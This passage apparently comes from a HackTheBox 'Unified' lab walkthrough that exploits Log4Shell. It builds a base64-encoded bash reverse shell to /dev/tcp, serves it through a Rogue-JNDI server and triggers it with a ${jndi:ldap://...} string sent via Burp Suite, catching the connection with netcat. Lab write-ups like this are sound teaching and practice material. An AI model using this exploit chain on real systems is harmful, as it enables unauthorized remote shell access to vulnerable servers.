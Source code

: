 # <font color="#9bffc8">create a reverse shell payload</font>

This will create a `.jar` file in `rogue-jndi/target/` directory called `RogueJndi-1.1.jar`. Before we can run the application. We need to create our reverse shell payload first and encode it with base64 to prevent any encoding issues.

```bash
➜ echo 'bash -c bash -i >& /dev/tcp/Tun0 IP/Port 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwL1R1bjAgSVAvUG9ydCAwPiYxCg==
```

# <font color="#9bffc8">rogue-jndi arguments</font>

After the payload had been created, start the `Rogue-JNDI` application with these arguments. `Example down below`;
Make sure to run the Netcat listener on your desire/reverse_shell port to catch the connection back.

```bash
➜  java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING}|{base64,-d}|{bash,-i}" --hostname "Tun0 IP Address"
```

![1](/assets/images/htb/unified/rogue-jndi-argv.png)

Going back to `burpsuite`. Let's intercept the requests once more but this time the payload going to be this instead; <br>
After the payload is already set in place. Now, just click a single button it is the `Send` button & BINGO!

```java
${jndi:ldap://Tun0 IP Address:1389/o=tomcat}
```

![1](/assets/images/htb/unified/nc.png)
